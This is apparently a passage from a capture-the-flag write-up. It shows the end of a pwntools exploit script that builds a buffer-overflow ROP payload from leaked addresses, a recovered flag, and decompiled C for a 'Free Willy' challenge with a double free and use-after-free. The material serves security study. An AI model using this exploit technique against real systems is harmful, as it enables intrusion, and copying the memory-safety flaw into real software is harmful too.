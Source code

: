 ```python
	r = b'\xC4\x8D\xB7\x1F\x7E\x55\x00\x00'
	r = u64(r)
	b_base = r - 0xDC4

	pop_rdi += b_base
	pop_rsi_r15 += b_base

	log.info('b_base: 0x%X' % b_base)
	payload = b'A'*56+b'\x00\x73\x01\xAE\x3D\x63\x31\x50'+\
			b'\xA0\x02\xB3\xED\xFD\x7F\x00\x00'+\
			p64(pop_rdi) + p64(4) +\
			p64(pop_rsi_r15) + p64(b_base+0x1128) + p64(0) +\
			p64(b_base+0xFDC)
	p.sendafter(b'QUIT\n', payload)
	p.interactive()

if __name__ == '__main__':
	main()
#	brute_thread([0])
	#brute()
```

Flag: `flag{should_make_an_ascii_flag_image}`

## Free Willy

This program is vulnerable to both `double free` and `use after free` !

```c++
unsigned __int64 __fastcall disown_whale(Whale **a1, unsigned __int64 total)
{
  unsigned __int64 result; // rax
  int v3; // [rsp+1Ch] [rbp-34h]
  unsigned __int64 i; // [rsp+20h] [rbp-30h]
  char *ptr; // [rsp+28h] [rbp-28h]
  char s; // [rsp+30h] [rbp-20h]
  unsigned __int64 v7; // [rsp+48h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  puts("We're sorry it didn't work out.");
  puts("Which whale would you like to send away?");
  for ( i = 0LL; i < total; ++i )
  {
    printf("%d. %s", i, a1[i]->name);
  }
  fgets(&s, 16, stdin);
  v3 = atoi(&s);
  if ( v3 >= 0 && total > v3 )
  {
    ptr = a1[v3]->name;
    free(a1[v3]);
    free(ptr);
    result = total;
  }
  else
  {
    puts("You don't even know your own children!?");
    result = total;
  }
  return result;
}
```
